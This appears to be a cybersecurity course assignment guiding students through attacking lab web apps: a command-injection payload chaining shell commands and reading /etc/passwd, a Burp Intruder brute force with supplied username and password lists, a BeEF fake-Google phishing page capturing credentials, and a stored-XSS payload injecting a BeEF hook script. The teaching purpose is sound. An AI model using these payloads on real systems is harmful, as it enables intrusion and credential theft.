

# Module 15 Challenge

## Module 15 Challenge <assignment>

### Testing Web Applications for Vulnerabilities

For this Challenge assignment, you will continue playing the role of an application security engineer at Replicants. Replicants has created several new web applications and would like you to continue testing them for vulnerabilities. Additionally, your manager would like you to research and test a tool called **BeEF** in order to understand the impact it could have on the organization if Replicants were targeted with this tool. 

### Lab Environment

You will continue to use your Vagrant virtual machine for this assignment.

### Topics Covered in This Assignment

- Web application vulnerability assessments
- Injection
- Brute force attacks
- Broken authentication
- Burp Suite
- Web proxies
- Directory traversal
- Dot-dot-slash attacks
- BeEF
- Cross-site scripting
- Malicious payloads

### Instructions

In this assignment, you will test three web application vulnerabilities. For each vulnerability you will be provided with the following:

  - Steps detailing how to set up and access the application.

  - A walkthrough explaining how the application is intended to work.

  - A task that will test the application for vulnerabilities.

Your goal is to determine whether each application is vulnerable and, if so, provide mitigations.

#### Deliverable

As you work through the Challenge, fill out the [M15 Challenge Submission File](https://docs.google.com/document/d/1nPIQyMRJQT1hCdRjKPM-oAdC1eyQcwz2HOjc5qzCdpM/edit?usp=sharing) (don't forget to make a copy of this document before filling it out!). When you're finished with the Challenge, for each vulnerability tested, this document should include: 
- Screenshots confirming the successful exploit.
- Two to three sentences detailing recommended mitigation strategies. 

You'll submit this document through Canvas as your Challenge deliverable.


### Web Application 1: *Your Wish is My Command Injection*

1. Complete the following steps to set up the activity: 

    - Access Vagrant and open a browser.

    - Navigate to the webpage <http://192.168.13.25> and select the "Command Injection" option.
      
      - Alternatively, access the webpage directly at this page: <http://192.168.13.25/vulnerabilities/exec/>
      
      - The webpage should resemble the following image:

        

     > **Note:** If you have any trouble accessing this webpage, refer to the following activity setup steps that we completed in the activity "Testing SQL Injection on Web Applications" on Day 1 of this module: 
     >
     > - Launch Vagrant from GitBash or the Mac terminal using the following command: `vagrant up`
     >   
     > - Then, open the command line inside Vagrant, and run the following command: `cd ./Documents/web-vulns && docker-compose up`
     > 
     > - Leave this page open and continue to the next step. 
     >
     > - To access the Replicants website, open a web browser within Vagrant, and access the following webpage: <http://192.168.13.25/setup.php>
     >
     > - On the bottom of this page, click "Create / Reset Database."
     > 
     > - This will configure the database for the application.
     >   
     > - The message "Setup Successful" at the bottom of the page indicates that it's complete. 
     > 
     > - To log in to the mock Replicants website, access the following webpage: <http://192.168.13.25/login.php>
     >
     > - Log in with the following credentials:
     >    - Username: `admin`
     >    - Password: `password`

2. This page is a new web application built by Replicants in order to enable their customers to `ping` an IP address. The webpage will return the results of the `ping` command to the user.

   Complete the following steps to move through the intended purpose of the web application. 

   - Test the webpage by entering the IP address `8.8.8.8`. When you press "Submit" the results should display on the web application, as the following image shows:

     

     - Behind the scenes, when you select "Submit," the IP that you typed in the field is *injected* into a command that is run against the Replicants web server. The specific command that runs on the web server is `ping <IP>`, and in this case, `8.8.8.8` is the field value that was injected into that command.
     
     - This process is no different than if we went to the command line and typed the command `ping 8.8.8.8`, as the following image shows:

       

3. Test whether you can manipulate the input to cause an unintended result.

    - On the same webpage, enter the following command (payload) in the field: `8.8.8.8 && pwd`

    - This command uses two ampersands to add a second command to the original request:

      - `pwd` is the second command. It will display the directory location where the command is run on the Replicants webserver.
     
      - This is no different than running `ping 8.8.8.8 && pwd` on the command line. 
  
   - Press Enter. Note that the ping results include the results of the second `pwd` command, as the following image shows:

     

     This type of injection attack is called **command injection**, and it depends on the web application taking user input to run a command against an operating system.

4. Now that you've determined that Replicants's new application is vulnerable to command injection, you are tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:
   
   - `/etc/passwd`
   
   - `/etc/hosts`
  
   > **Hint:** Try testing out a command directly on the command line to help design your payload.

5. In the [M15 Challenge Submission File](https://docs.google.com/document/d/1nPIQyMRJQT1hCdRjKPM-oAdC1eyQcwz2HOjc5qzCdpM/edit?usp=sharing) (make a copy first!), paste a screenshot confirming that you successfully executed this exploit, and write two or three sentences outlining mitigation strategies for this vulnerability. 


### Web Application 2: *A Brute Force to Be Reckoned With*

1. Complete the following steps to set up the activity. 

    - Open a browser on Vagrant and navigate to the webpage <http://192.168.13.35/install.php>
  
    -  The page should resemble the following image:

       

    - Click "here" to install bWapp. (See the arrow in the previous screenshot.) 
    
    - After successfully installing bWapp, use the following credentials to log in:
      - Login: `bee`
      - Password: `bug`

       
 
    - This will take you to the "Portal" page, as the following image shows:

      

    - To access the application where you'll conduct the activity, enter the following URL: <http://192.168.13.35/ba_insecure_login_1.php>

      - This will take you to the "Broken Auth - Insecure Login Forms" page, as the following image shows:

        

2. This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects "Login."
     
    - If the user/password combination is correct, the application will return a success message.
     
    - If the user/password combination is incorrect, the application will return the message "Invalid credentials."

3. Years ago, Replicants had a systems breach and several administrators' passwords were stolen by a malicious hacker. The malicious hacker was only able to capture a list of passwords, not the associated accounts' usernames. But your manager is concerned that one of the administrators that accesses this new web application is using one of the compromised passwords. Therefore, there is a risk that the malicious hacker could use these passwords to access an administrator's account and view confidential data.

   - Use the web application tool **Burp Suite**&mdash;specifically, the **Burp Suite Intruder** feature&mdash;to determine whether any of the administrator accounts are vulnerable to a brute force attack on this web application. 

   - Use the following lists of administrators and breached passwords:

     - List of Administrators:
         ```
         1.  superman
         2.  loislane
         3.  spiderman
         4.  jennyjones
         5.  tonystark
         6.  timtom
         7.  peterparker
         8.  clarkkent
         9.  michaelsmith
         10. henryhacker
         ```

     - List of breached Passwords:
         ``` 
         1.  Up, up and away!
         2.  Avengers Assemble
         3.  Cowabunga! 
         4.  Here I come to Save the Day
         5.  With great power comes great responsibility
         6.  You wouldn’t like me when I’m angry
         7.  Courage is immortal
         8.  I am Iron Man
         9.  His Past. Our future
         10. Change is coming
         ```
  
     > **Hint:** Refer back to the Burp Intruder activity "Conducting Brute Force Attacks with Burp Intruder" from Day 3 for guidance.
 
4. In your M15 Challenge Submission File, paste a screenshot confirming that you successfully executed this exploit, and write two or three sentences outlining mitigation strategies for this vulnerability. 

### Web Application 3: *Where's the BeEF?*

1. Complete the following steps to start the activity: 
   
   - To access the BeEF graphic user interface (GUI), open your browser and enter the following URL, http://127.0.0.1:3000/ui/panel.

   - When the BeEF webpage opens, log in with the following credentials:
     - Username: `beef`
     - Password: `feeb`

     

   - You have successfully completed the setup when you reach the BeEF control panel, as shown in the following image:

     

2. The **Browser Exploitation Framework (BeEF)** is a practical client-side attack tool that exploits web-browser vulnerabilities in order to assess the security posture of a target.      

   - While BeEF was developed for lawful research and penetration testing, criminal hackers leverage it as an attack tool.
  
   - An attacker takes a small snippet of code, called a **BeEF Hook**, and finds a way to add this code into a target website. This is commonly done by cross-site scripting.

   - When subsequent users access the infected website, the users' browsers become **hooked**.
     - Once a browser is hooked, it is referred to as a zombie. A **zombie** is an infected browser that awaits instructions from the BeEF control panel.
     - The BeEF control panel has hundreds of exploits that can be launched against the hooked victims, including:
       - Social engineering attacks 
       - Stealing confidential data from the victim's machine
       - Accessing system and network information from the victim's machine
       
3. BeEF includes a feature that runs a simulation of an infected website.
    
    - To access this simulated infected website, locate the following sentence on the BeEF control panel: "To begin with, you can point a browser towards the basic demo page here, or the advanced version here."
    
    - Click the second "here" to access the advanced version, as the following image shows:  
     
       

    - This will open the website The Butcher, which has been infected with a BeEF hook, as the following image shows:

       

    - Note that once you have pulled up this infected webpage, your browser has been hooked!

    	- If your browser has not been hooked, restart your browser and try again.

    -  Return to the control panel. In the left-hand "Hooked Browsers" panel, notice that your browser has become infected since accessing the infected Butcher website. Note that if multiple browsers become infected, they will each be listed in this left-hand panel. Click the browser `127.0.0.1`. The "Details" tab will display information about the infected browser, as shown in the following screenshot:

        

4. Now, you're ready to test an exploit. To do so, complete the following steps:

    - Select the "Commands" tabs. 
    
      - This will list folders of hundreds of exploits that can be run against the hooked browser. Note that many may not work, as they are dependent on the browser and security settings enabled.
  
   - First, you'll attempt a social engineering phishing exploit to create a fake Google login pop-up. You can use this to capture user credentials.
     
   - To access this exploit, select "Google Phishing" within the "Social Engineering" folder, as the following image shows:

       

   - After selecting this option, the right-hand pane will display a description of the exploit and any dependencies or options, as the following image shows:

       

   - To launch the exploit, select "Execute" in the bottom-right corner.

     - After selecting "Execute," return to the browser that was displaying the Butcher Shop website. Note that it has changed to a Google login page.

     - A victim could easily mistake this for a real login prompt.

   - Let's find out what would happen if a victim entered their credentials. Use the following credentials to log in to the fake Google page: 
     - Username: `hackeruser`
     - Password: `hackerpass`

       

   - Return to the BeEF control panel. In the center pane ("Module Results History"), select the first option. Note that in the right-hand pane, the victim's username and password have now been captured by the attacker, as the following image shows:

     

5. Now that you know how to use the BeEF tool, you'll use it to test the Replicants web application. You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants's main website.

   - Task details:
     - You will test the Replicants Stored XSS application page (which we used on the first day of this module): `http://192.168.13.25/vulnerabilities/xss_s/`
     - The BeEF hook, which was returned after running the `sudo beef` command, was: `http://127.0.0.1:3000/hook.js`
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

   -  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.    
      
      > **Hint:** Try right-clicking and selecting "Inspecting the Element".
    
   - Once you are able to hook into Replicants's website, attempt a couple of BeEF exploits. Some that may work well include:
     
     - Social Engineering > Pretty Theft
     
     - Social Engineering > Fake Notification Bar
     
     - Host > Get Geolocation (Third Party)
    
6. In your M15 Challenge Submission File, paste a screenshot confirming that you successfully executed this exploit, and write two or three sentences outlining mitigation strategies for this vulnerability.  


### Submission Guidelines

* After you complete your Submission File, title it with the following format: < YOUR NAME >< M15 Challenge Submission File >
* Make sure to set the file permissions so that anyone can view and comment on your document.
* Submit the URL of your Submission File Google Doc through Canvas.
